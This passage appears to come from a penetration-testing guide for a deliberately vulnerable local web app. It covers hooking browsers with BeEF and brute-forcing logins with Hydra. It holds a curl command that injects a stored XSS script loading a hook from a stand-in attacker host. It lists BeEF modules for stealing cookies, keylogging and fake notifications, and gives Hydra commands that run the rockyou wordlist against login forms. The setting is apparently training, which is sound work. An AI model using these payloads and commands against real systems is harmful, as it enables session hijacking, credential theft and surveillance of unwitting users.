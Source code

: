 
### 4.2 BeEF (Browser Exploitation Framework)

**Objective**: Post-exploitation via XSS - hook browsers and control victims

#### Setup BeEF Server
```bash
# Start BeEF
sudo beef-xss

# Access panel at: http://127.0.0.1:3000/ui/panel
# Default credentials: beef / beef
```

#### Hook Browser via XSS
```bash
# 1. Get BeEF hook script
Hook URL: http://<ATTACKER_IP>:3000/hook.js

# 2. Inject into vulnerable endpoint
curl -X POST http://localhost:3001/create \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode 'content=<script src="http://ATTACKER_IP:3000/hook.js"></script>'

# 3. Victim visits page → Browser hooked in BeEF panel
```

#### BeEF Post-Exploitation Commands
- **Get Cookie**: Commands → Browser → Hooked Domain → Get Cookie
- **Redirect**: Commands → Browser → Redirect Browser
- **Keylogger**: Commands → Persistence → Simple Keylogger
- **Webcam**: Commands → Misc → Webcam Permission Check
- **Social Engineering**: Commands → Social Engineering → Fake Notification

---

### 4.3 Hydra - Brute Force Authentication

**Objective**: Brute force login credentials

```bash
# HTTP POST form brute force
hydra -l admin@snyk.io -P /usr/share/wordlists/rockyou.txt \
  localhost -s 3001 http-post-form \
  "/login:username=^USER^&password=^PASS^:Invalid credentials" \
  -t 10 -w 30

# JSON API brute force
hydra -l admin@snyk.io -P /usr/share/wordlists/rockyou.txt \
  localhost -s 3001 http-post-form \
  "/login:{\"username\":\"^USER^\",\"password\":\"^PASS^\"}:401" \
  -t 10

# With custom user agent
hydra -l admin@snyk.io -P passwords.txt \
  localhost -s 3001 http-post-form \
  "/login:username=^USER^&password=^PASS^:F=401:H=User-Agent: Mozilla/5.0"
```

---